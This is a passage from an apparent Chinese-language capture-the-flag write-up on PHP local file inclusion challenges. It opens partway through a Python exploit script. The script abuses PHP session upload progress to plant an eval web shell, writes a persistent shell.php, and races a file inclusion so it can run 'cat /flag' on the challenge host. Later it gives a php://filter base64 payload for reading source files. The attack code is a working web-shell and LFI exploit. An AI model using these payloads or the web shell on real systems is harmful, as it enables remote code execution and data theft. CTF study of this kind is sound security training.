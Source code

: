 ```python
            data={
                "PHP_SESSION_UPLOAD_PROGRESS": "<?php @eval($_POST[cmd]);fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>');?>"},
            files={"file": ('q.txt', f)},
            cookies={'PHPSESSID': sessid}
        )


def READ(session):
    while True:

        data={
            "cmd" : "system('cat /flag');"

        }
        response = session.post(f"http://core.hello-ctf.com:34292/index.php?file=/var/lib/sessions/sess_b928ce6bbd1bea764e24d855011f9ed7",data=data)


        if 'flag{' not in response.text:
            print(response.text)
        else:
            print(response.text)
            sys.exit(0)


with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session,))
    t1.daemon = True
    t1.start()

    READ(session)

```



###  Level 16 FilterChain:THE_END_OF_LFI

根据题目 action=read resource=flga.php即可

我发现也不一定非得用exp 构造

payload:

?file=php://filter/read=convert.base64-encode/resource=flag.php&action=read

得到Base64编码后的结果

解码即可


### Level 17 FilterChain:file read from error-based oracle

